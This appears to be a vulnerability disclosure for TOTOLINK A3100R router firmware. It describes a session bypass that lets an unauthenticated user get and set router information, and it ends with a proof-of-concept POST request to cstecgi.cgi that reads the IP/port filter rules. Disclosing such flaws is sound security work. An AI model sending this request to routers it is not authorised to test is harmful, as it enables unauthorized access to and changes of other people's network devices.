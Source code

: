 # unauthorized access

## A3100R_Firmware	 
version:V4.1.2cu.5050_B20200504，V4.1.2cu.5247_B20211129

## Description:

TOTOLINK use sessoin to control web access,but we can bypass the limit by constructe topic url. Router information can be get and set by unauthorized user.

## Source:
you may download it from : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/170/ids/36.html
![](./img/2.png)

## Analyse:
normal request through webpage like follows
![](./img/28.png)

after we delete session ,we can still get the information.
![](./img/27.png)

## POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 47







{"topicurl":"setting/getIpPortFilterRules"}
```
